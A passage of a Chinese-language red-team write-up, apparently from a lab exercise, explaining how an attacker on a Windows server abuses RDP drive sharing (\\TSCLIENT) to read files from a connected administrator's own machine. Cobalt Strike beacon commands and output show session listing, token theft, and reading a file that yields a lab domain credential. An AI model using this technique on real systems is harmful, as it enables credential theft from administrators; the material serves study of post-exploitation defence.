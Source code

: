限制条件：默认情况下 mstsc 是不开启磁盘共享功能的，必须要手工开启。

开启方法，如图所示：

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/2dbefa1c066c0bfc.png){: w="350" }

- 打开“远程桌面连接 (mstsc)”选择“本地资源”选项卡；
- 点击“本地设备和资源”下的“详细信息”；
- 配置想要共享到远程计算机的本地磁盘驱动器。

虽然限制条件较为苛刻，但在实际环境中，很多运维人员为了方便操作，通常会挂载本地磁盘，因此这一方法并非全然无用，需要根据实际情况判断。

当发现有用户（运维）正在使用远程桌面连接该服务器时：

```console
beacon> shell qwinsta
[*] Tasked beacon to run: qwinsta
[+] host called home, sent: 38 bytes
[+] received output:
 会话名            用户名                   ID  状态    类型        设备
>services                                    0  断开
 console                                     1  已连接
 rdp-tcp#0         John                      2  运行中
 rdp-tcp                                 65536  侦听
```

可以尝试偷取该用户的身份令牌，以该用户的身份执行 `net use` 命令，如果查看到如下网络连接，则表示该用户在连接远程服务器时开启了 tsclient 磁盘挂载：

```console
beacon> shell whoami
[*] Tasked beacon to run: whoami
[+] host called home, sent: 37 bytes
[+] received output:
win-web\john

beacon> shell net use
[*] Tasked beacon to run: net use
[+] host called home, sent: 38 bytes
[+] received output:
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
                       \\TSCLIENT\C              Microsoft Terminal Services
命令成功完成。

```

> 注：只有远程登录的用户可以访问 tsclient，其他用户无法访问，包括使用 runas 也无法访问。

此时，可以通过 tsclient 读取该用户（RDP 客户端）本地磁盘中的文件：

```console
beacon> shell type \\TSCLIENT\C\credential.txt
[*] Tasked beacon to run: type \\TSCLIENT\C\credential.txt
[+] host called home, sent: 63 bytes
[+] received output:
xiaorang.lab\Aldrich:Ald@rLMWuy7Z!#

Do you know how to hijack Image?
```
